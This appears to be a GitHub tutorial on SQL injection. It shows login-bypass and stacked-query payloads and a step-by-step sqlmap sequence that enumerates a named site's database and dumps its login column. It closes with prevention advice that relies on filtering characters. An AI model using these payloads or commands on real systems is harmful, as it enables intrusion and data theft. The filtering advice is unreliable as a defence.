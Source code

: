 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

-	***Union Operator:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.
-	***Error based:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```
- More Information: https://www.owasp.org/index.php/SQL_Injection
![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)
<table>
<tr>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png) </td>
    <td> ![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png) </td>
</tr>
</table>

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name
  `sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch`

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`

## Prevent SQL injection
Filter out character like ' " - / \ ; NULL, etc. in all strings from:
- Input from users
- Parameters from URL
- Values from cookie

- Mitigation: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

